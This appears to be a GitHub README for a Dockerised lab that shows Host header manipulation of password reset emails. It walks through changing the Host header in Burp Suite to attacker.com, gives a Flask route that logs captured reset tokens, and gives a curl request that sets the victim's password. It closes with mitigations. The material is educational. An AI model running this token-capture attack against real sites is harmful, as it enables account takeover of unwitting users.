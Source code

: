 # Password Reset Spoof
A demonstration of Host Header Manipulation to exploit password reset functionality and capture reset tokens for unauthorized account access.

### Host Header Attack: Password Reset Exploitation

1. **Attacker Accesses Password Reset Form**:
   The attacker visits the target website (e.g., www.example.com) and enters the victim's email in the password reset form.

2. **Attacker Intercepts the Request**:
   Using a proxy tool (e.g., Burp Suite), the attacker intercepts the outgoing password reset request.

3. **Host Header Manipulation**:
   The attacker modifies the `Host` header from www.example.com to attacker.com.

4. **Server Generates Malicious Link**:
   The target server uses the manipulated `Host` header to generate a password reset link pointing to attacker.com.

5. **Victim Receives Email with Malicious Link**:
   The victim receives a legitimate-looking email containing the malicious link (e.g., https://attacker.com/reset-password?token=abc123).

6. **Victim Clicks the Malicious Link**:
   The victim unknowingly clicks the link, which redirects them to the attacker-controlled website.

7. **Attacker Captures Reset Token**:
   The attacker’s website captures the password reset token (e.g., abc123) from the victim's request.

8. **Attacker Uses the Token**:
   The attacker sends the captured token to the legitimate password reset endpoint on www.example.com and resets the victim's password, gaining control over their account.


# Step-by-Step Guide to Running the Project

This guide explains how to set up and run the project.

## Update Credentials:

![Update Credentials](images/mail_script.png)

Explanation: This step ensures the system uses the specified email credentials for sending reset emails as part of the scenario demonstration.


### Step 1: Start Docker Compose
Run the following command to start all services:
```bash
docker-compose up --build
```

### Step 2: Open Localhost Ports
Access the services running on your local machine through the following ports:

1. **Backend**: Open your browser and navigate to: http://localhost:5000
2. **Frontend**: Open your browser and navigate to: http://localhost:4567


### Step 3: Enter Victim's Email for Password Reset
In this step, the attacker enters the victim's email address into the password reset form on the legitimate website to initiate the password reset process.

Example Screenshot:
![Enter Victim Email](images/victim_email.png)

Explanation: This step triggers the password reset process, and the server will send a reset link to the victim’s email address.

### Step: Capturing and Modifying the Request in Burp Suite

1. **Capture the Original Request**:
   Using **Burp Suite**, intercept the outgoing password reset request after entering the victim's email. The original `Host` header points to the legitimate domain (e.g., `www.example.com`).

   **Original Request Screenshot**:
   ![Original Request](images/original_request.png)

2. **Modify the `Host` Header**:
   In **Burp Suite**, modify the `Host` header to point to the attacker's domain (e.g., `attacker.com`). This change ensures that the server generates the reset link using the malicious domain.

   **Modified Request Screenshot**:
   ![Modified Request](images/modify_header.png)

### Step 4: Victim Receives Email and Clicks Malicious Link

In this step, the victim receives an email containing a password reset link generated by the manipulated `Host` header. The link appears legitimate but redirects to the attacker's website.

Example Screenshot:
![Victim Receives Email](images/password_reset_email.png)

Explanation: The victim, unaware of the attack, clicks the link (e.g., `https://attacker.com/reset-password?token=abc123`). This action redirects them to the attacker's web server, which captures the reset token from the request.


### Step 5: Attacker Captures the Token in Attacker Server

When the victim clicks the malicious reset link, they are redirected to the attacker's server. The attacker’s server (`attacker_server/main.py`) captures the reset token from the URL.

Code in `attacker_server/main.py`:
```python
@app.route('/reset-password', methods=['GET'])
def capture_token():
    token = request.args.get('token')
    if token:
        print(f"Captured Token: {token}")
        with open("captured_tokens.txt", "a") as f:
            f.write(f"Captured Token: {token}\n")
        return jsonify({"success": True, "message": "Token captured successfully"}), 200
    else:
        return jsonify({"success": False, "message": "No token found in the request"}), 400
```

### Step 6: Attacker Sends the Payload to Server Endpoint

Using the captured reset token, the attacker crafts a malicious payload and sends it to the legitimate server’s password reset confirmation endpoint (`/confirm-password`). This resets the victim's password to one chosen by the attacker.

Example Payload:
```bash
curl -X POST http://127.0.0.1:5000/confirm-password \
-H "Content-Type: application/json" \
-d '{"token": "G34v0QYdJXZVopfDlmjt7V1gXYIfTCmaZhRRrmP7xDo", "new_password": "easypeasy"}'
```
![Victim Password Reset](images/victim_password_reset.png)


### Step 7: Attacker Logs in Using Victim's Email and New Password
After successfully resetting the victim's password, the attacker can now log in to the victim's account using the email and the new password they set.


# Conclusion
This demonstration highlights the risks associated with insecure password reset implementations and the exploitation of trust in the `Host` header. By manipulating the reset process, attackers can capture sensitive tokens, gain unauthorized access to user accounts, and compromise the security of the system. Implementing proper validations, such as whitelisting `Host` headers, securing reset tokens, and employing multi-factor authentication, can help mitigate these attacks.
